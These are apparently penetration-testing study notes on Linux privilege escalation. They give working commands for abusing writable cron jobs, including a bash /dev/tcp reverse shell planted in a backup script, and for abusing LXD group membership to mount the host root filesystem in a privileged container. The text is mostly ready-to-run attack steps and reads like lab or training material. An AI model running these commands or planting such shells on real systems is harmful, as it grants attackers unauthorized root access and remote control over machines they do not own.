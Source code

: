 
-----
# Cron Job Abuse
-----
- Find writable cron jobs
```bash
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```
- Select the one that's likely to be vulnerable
```bash
ls -la /dmz-backups/
```

- In our example, the cron is running pspy64, a command used to view running processes without the root privilege.
```bash
/pspy64 -pf -i 1000
-pf: print commands anfd file system events
-i 1000: tells the command to scan profcs every 1000ms
```
- Select a file to write on: `backup.sh` a bash one-liner reverse shell
```bash
<SNIP>
bash -i >& /dev/tcp/$IP/$PORT 0>&1
```

----- 
# Containers
-----
- Check the group of the user: `id`
```bash
id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```
- We can either create our own container and transfer it to the target system or use an existing container.
```bash
lxc image import ubuntu-template.tar.xz --alias ubuntutemp
lxc image list
```
- After verifying this image has been successfully imported, we can initiate the image and configure it by specifying the `security.privileged` flag
```lxc init ubuntutemp privesc -c security.privileged=true
lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```
- Start the container and log into it
```bash
lxc start privesc
lxc exec privesc /bin/bash
```
